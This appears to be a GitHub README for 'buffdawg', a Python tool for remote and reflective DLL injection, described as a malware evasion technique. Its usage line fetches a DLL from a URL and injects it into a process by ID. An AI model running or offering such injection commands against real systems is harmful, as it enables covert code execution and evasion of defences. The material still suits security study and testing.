

# buffdawg
DLL Injection is a common evasion technique used by many malware samples. This is an implementation of remote dll injection in Python3. It also includes a "Reflective DLL Injection" feature via sRDI's ConvertToShellcode function by converting the DLL into shellcode to perform remote process injection from memory.

# Usage
`python buffdawg.py -u http://127.0.0.1:8080/whoami.dll -p 11756 -f C:\\Users\\Public\\hi.dll`

# Reference 
https://github.com/monoxgas/sRDI
